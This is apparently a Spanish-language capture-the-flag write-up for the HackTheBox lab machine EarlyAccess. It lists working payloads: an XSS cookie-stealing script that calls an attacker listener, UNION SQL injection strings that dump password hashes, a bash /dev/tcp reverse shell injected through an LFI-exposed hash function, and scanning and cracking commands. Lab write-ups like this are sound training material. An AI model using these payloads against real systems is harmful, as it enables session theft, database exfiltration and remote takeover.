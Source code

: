 https://app.hackthebox.com/machines/EarlyAccess
# Fase de reconocimiento

## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.11.110
```
![[Pasted image 20241210102323.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80,443 10.10.11.110
```
![[Pasted image 20241210102438.png]]
## Añadir /etc/hosts
![[Pasted image 20241210102834.png]]
## Buscamos posibles subdominos y info en certificado
```
openssl s_client -connect 10.10.11.110:443
```
![[Pasted image 20241210103809.png]]
Vemos el correo de un usuario
## 
```
gobuster dir -u https://earlyaccess.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

# Fase de ataque
## XSS + Cookie Hijacking
Hay un contact con admin y Cambiando el nombre de perfil, puedes inyectar html
1. Cambiamos el nombre
```
<script>document.location="http://10.10.14.10:8080/?cookie="+document.cookie</script>
```
![[Pasted image 20241210110410.png]]
2. Nos ponemos en escucha
```
python3 -m http.server 8080
```
3. Mandamos un mensaje al admin

![[Pasted image 20241210110428.png]]
Cambiamos las cookies
¡admin!
## Key-validator analysis (s4vitar video)
Vemos que hace el código para validar y creamos una clave dejuego valida.

Asignamos la clave a una cuenta (ej. prueba@prueba.com)
Entramos en la pagina del game

## SQLI
Metemos un SQLI en el perfil que sera refeljado en el scoreboard.
Probamos que sea vulnerable
```
prueba'
```
Como es vulnerable, buscamos los datos en BBDD
Buscamos el total de columnas
```
prueba') order by 3-- -
```
```
prueba') union 1,2,database()-- -
```
```
prueba') union 1,2,schema_name from information_schema.schemata-- -
```
```
prueba') union 1,2,table_name from information_schema.tables where table_schema='db'- -
```
```
prueba') union 1,2,column_name from information_schema.columns where table_schema='db' and table_name='users'- -
```
```
prueba') union 1,2,group_concat(name,0x3a,password) from users- -
```
Nos da unas contraseñas hasheadas

## Crack
```
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```
Sale cotraseña admin - gameover

Iniciamos sesion en dev.
## Fuzz de archivos php en la web
```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium-txt -H "Cookie: PHPSESSID=<cookie>" "http://dev.earlyaccess.htb/actions/FUZZ.php"
```
Encontramos file.php
### Fuzz de parametro de insertar archivo
```
wfuzz -c --hc=404 -hh=35 -t 200 -w /usr/share/secList/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=<cookie>" "http://dev.earlyaccess.htb/actions/file.php?FUZZ=test"
```
Enocntramos que es ?filepath=
## LFI
Podemos llegar a ver el php integro de la opcion de hash y vemos que podemos modificar el metodo de hasheo añadiendo debug en los parametros 
Insertamos en el parametro de funciones un comando para ejuctar comandos y en la password a hashear el comando
```
hash_functions=system
```
```
password=bash -c 'bash -i >& /dev/tcp/<ipa>/443 0&1'    (urlencode)
```
Nos ponemos en escucha
```
nc -nlvp 443
```
[-] ==pwned!==

# Privilege Escalation
## Exit docker container
Reutilizacion de credenciales para ir al usuario www-adm

- En el usuario hay credenciales de un api
- Hay una API corriendo en local
```
nc API 80
```
### Escaneo puertos bash
``` bash
#!/bin/bash
function ctrl_c(){
	echo -e "\n\n[!] Saliendo..."
	exit 1
}
trap ctrl_c INT

for port in $(seq 1 65535); do
	tiemout 1 bash -c "echo '' > /dev/tcp/<ipd>/$port" 2>/dev/null && echo "[+] POrt $port open" &
	
done, wait

```
En el puerto 5000 esta la API y hay configuracion 
```
wget http://<ipd>:5000/check_db
```
Encontramos usuario y contraseña de base de datos y root

Nos conectamos a la maquina real con ssh y usuario drew

## Desde maquina real
Encontramos un .ssh/id_rsa.pub con una publica de otra maquina

Encontramos la maquina para conectarnos por ssh (172.19.0.3)

Nos conectamos

...(mucho texto)

[+] ==pwned!==
